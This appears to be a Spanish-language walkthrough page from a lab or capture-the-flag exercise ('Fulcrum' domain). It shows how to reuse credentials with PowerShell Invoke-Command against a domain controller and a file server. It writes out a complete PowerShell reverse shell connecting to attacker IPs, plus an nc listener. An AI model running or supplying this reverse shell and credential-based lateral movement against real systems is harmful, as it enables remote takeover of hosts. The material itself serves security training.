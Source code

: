 ## Autenticarse ante un Domain Controller

Estos comandos establecen una autenticación remota contra un controlador de dominio (`Domain Controller`) utilizando PowerShell en Windows.
```powershell
# Definir la contraseña en un objeto SecureString (almacenamiento seguro)
$password = ConvertTo-SecureString '@fulcrum_bf392748ef4e_$' -AsPlainText -Force

# Crear las credenciales con nombre de usuario y contraseña
$Cred = New-Object System.Management.Automation.PSCredential('FULCRUM\923a', $password)

# Ejecutar comandos en el Domain Controller utilizando Invoke-Command
Invoke-Command -ComputerName dc.fulcrum.local -Credential $Cred -ScriptBlock {

    $client = New-Object System.Net.Sockets.TCPClient('10.10.16.4', 54)
    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535 | %{0}
    

    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
        $sendback = (iex $data 2>&1 | Out-String)
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
        
        # Enviar respuesta al atacante
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte, 0, $sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
}
```
### Explicación de cada paso:

1. **ConvertTo-SecureString**: Almacena la contraseña de forma segura.
2. **New-Object PSCredential**: Crea las credenciales para autenticarse en `dc.fulcrum.local`.
3. **Invoke-Command**: Ejecuta comandos en el controlador de dominio utilizando la credencial. El bloque de script crea una conexión TCP inversa, que permite enviar y recibir comandos desde la máquina atacante.

---

## Ejecución de Comandos Remotos vía WinRM (Autenticación LDAP a OTRO COMPUTADOR)

Este ejemplo demuestra cómo autenticar un usuario (BTables) en una computadora remota (file.fulcrum.local) mediante WinRM y luego obtener una shell inversa.

### Conexión y Ejecución de Comandos

```R
# Convertir la contraseña a un objeto SecureString
$password = ConvertTo-SecureString '++FileServerLogon12345++' -AsPlainText -Force

# Crear el objeto de credencial con nombre de usuario y contraseña
$Cred = New-Object System.Management.Automation.PSCredential('FULCRUM\BTables', $password)

# Ejecutar el comando remoto en file.fulcrum.local
Invoke-Command -ComputerName file.fulcrum.local -Credential $Cred -ScriptBlock {
    whoami
}
# Resultado esperado: fulcrum\btables
```



### Configuración de una Reverse Shell

Para establecer una reverse shell, primero configuramos un listener en nuestra máquina local y luego ejecutamos el bloque de comandos en la máquina víctima para conectarse a nuestra IP.

#### Máquina Local (Atacante)
```bash
# Configurar un listener en el puerto 53
sudo rlwrap nc -nlvp 53
```

#### Máquina Víctima (Windows, Ejecutando PowerShell)
```powershell
# Establecer una reverse shell conectando la víctima a la IP atacante en el puerto 53
Invoke-Command -ComputerName file.fulcrum.local -Credential $Cred -ScriptBlock {
    $client = New-Object System.Net.Sockets.TCPClient('10.10.16.5', 53)
    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535 | %{0}
    
    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
        $sendback = (iex $data 2>&1 | Out-String)
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
        
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte, 0, $sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
}
```

### Explicación de cada paso:

1. **Listener en la máquina atacante**: `nc` escucha en el puerto especificado, en este caso el 53.
2. **Invoke-Command en máquina víctima**: Ejecuta un bloque de código para crear una conexión TCP inversa, manteniendo la conexión con la máquina atacante para ejecutar comandos PowerShell desde esta.